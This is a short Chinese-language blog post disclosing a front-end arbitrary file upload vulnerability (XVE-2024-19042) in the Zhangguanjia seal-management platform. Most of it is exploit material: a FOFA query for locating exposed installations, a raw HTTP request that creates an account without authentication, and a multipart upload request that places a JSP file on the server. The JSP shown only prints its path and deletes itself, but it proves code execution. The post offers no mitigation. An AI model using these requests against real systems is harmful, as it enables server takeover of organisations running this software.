 #  章管家前台任意文件上传漏洞(XVE-2024-19042)   
原创 Hacker  0xh4ck3r   2025-01-13 04:00  
  
# 章管家前台任意文件上传漏洞(XVE-2024-19042)  
  
章管家是上海建业信息科技股份有限公司推出的一款针对传统印章风险管理提供的整套解决方案的工具。 该系统存在前台任意文件上传漏洞，攻击者成功利用该漏洞可以上传任意文件，从而获得服务器权限。  
## fofa  
```
app="章管家-印章智慧管理平台"

```  
## poc  
  
新建用户  
```
POST /api/personSeal_jdy/saveUser.htm HTTP/1.1
Host:
User-Agent:  Mozilla/5.0  (Windows  NT  10.0;  Win64;  x64)  AppleWebKit/537.36
(KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Accept: */*Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Cookie: sid=ed467a70-91e9-450d-a2c1-db1fab8123adConnection: closeContent-Type: application/jsonContent-Length: 211{"op":{},"data":{"mobile":"13333333333","uid":"13333333333","password":"123456","name":"testuser","return_url":"https://www.baidu.com","apisecretkey":"1","_id":"1","mail_address":"111@qq.com"},"b7o4ntosbfp":"="}
```  
  
2、获取 Cookie ，上传文件  
```
POST /seal/sealApply/uploadFileByChunks.htm?token=dingtalk_token&person_id=40288053800311e80180261b92ab005e&chunk=1&chunks=1&guid=1 HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0)
Gecko/20100101 Firefox/128.0
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8Accept-Encoding: gzip, deflateAccept-Language:zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Cookie: sid=58139d92-115f-4e9b-99a1-ee200a8b17a0;ZHANGIN_CHECKBOX=false; ZHANGIN_MOBILE=;JSESSIONID=30A3F3F324080E3B327FEB2EB82E2CB0Content-Type: multipart/form-data; boundary=--------952870761Content-Length: 140----------952870761Content-Disposition: form-data; name="file"; filename="1.jsp"Content-Type: image/jpeg<%@ page import= "java.io.File" %><%out.println("111");String filePath = application.getRealPath(request.getServletPath());out.println(filePath);new File(filePath).delete();%>----------952870761--
```  
  
  
  
